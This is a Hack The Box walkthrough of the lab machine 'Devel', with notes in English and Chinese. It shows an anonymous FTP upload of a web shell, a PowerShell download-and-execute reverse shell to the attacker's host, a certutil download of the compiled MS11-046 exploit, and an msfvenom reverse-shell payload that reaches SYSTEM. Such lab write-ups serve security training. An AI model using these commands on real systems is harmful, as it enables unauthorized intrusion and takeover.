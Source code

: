 ```yaml
---
title : "Hack The Box - Devel"
author: fsociety
date: 2024-04-26 11:30:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [MS11-046,Anonymous FTP login allowed,]
---
```


![image](../assets/post_img/Snipaste_2024-04-26_17-58-03.png)

**Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.**

```
Devel 虽然相对简单，但演示了与某些默认程序配置相关的安全风险
它是一个初学者级别的机器，可以使用公开可用的漏洞来完成
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.62.217 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.62.217

ORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
```


### <span style="color:lightgreen">FTP - TCP 21</span>

```
ftp 10.129.62.217
Connected to 10.129.62.217.
220 Microsoft FTP Service
Name (10.129.62.217:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

```
可匿名登录,貌似是iis的web默认目录
```

### <span style="color:lightgreen">Website - TCP 80</span>


```
curl -I 10.129.62.217
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 26 Apr 2024 08:01:44 GMT
```

```
默认页
```

## <span style="color:lightblue">Foothold</span>
### <span style="color:lightgreen">Webshell Upload</span>

```
cp /opt/useful/SecLists/Web-Shells/FuzzDB/cmd.aspx ./

ftp 10.129.62.217
Connected to 10.129.62.217.
220 Microsoft FTP Service
Name (10.129.62.217:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.aspx 
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (39.2914 MB/s)
ftp> exit
221 Goodbye.
```

### <span style="color:lightgreen">Shell</span>

![image](../assets/post_img/Snipaste_2024-04-26_16-11-29.png)

```
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1

使用nishang的payload进行反弹shell

在末尾添加如下负载

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

```
sudo rlwrap nc -lvnp 443

powershell iex(new-object net.webclient).downloadstring('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')
```

```
sudo rlwrap nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.62.217.
Ncat: Connection from 10.129.62.217:49159.
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
iis apppool\web
```

## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">Using Watson enum</span>

```
https://github.com/rasta-mouse/Watson

Watson可以枚举缺失的 KB ,并列举出有用的权限提升漏洞
```

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v2.0.50727
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.0
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5
```

```
编译对应的x86 以及3.5 .net框架

运行

\\10.10.14.14\share\Watson.exe
```

```
MS11-046
```

### <span style="color:lightgreen">MS11-046</span>

```
https://www.exploit-db.com/exploits/40564

sudo apt-get install gcc-mingw-w64-i686
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32

certutil -urlcache -f http://10.10.14.16:8000/40564.exe exp.exe
```

```
这里遇到点问题 powershell 下执行exp 之后 权限还是iis服务账户
```

```
尝试反弹一个cmd的shell
```

```
sudo msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=4444 -f aspx > shell.aspx

c:\Windows\System32>whoami
whoami
nt authority\system
```

![image](../assets/post_img/Snipaste_2024-04-26_17-57-40.png)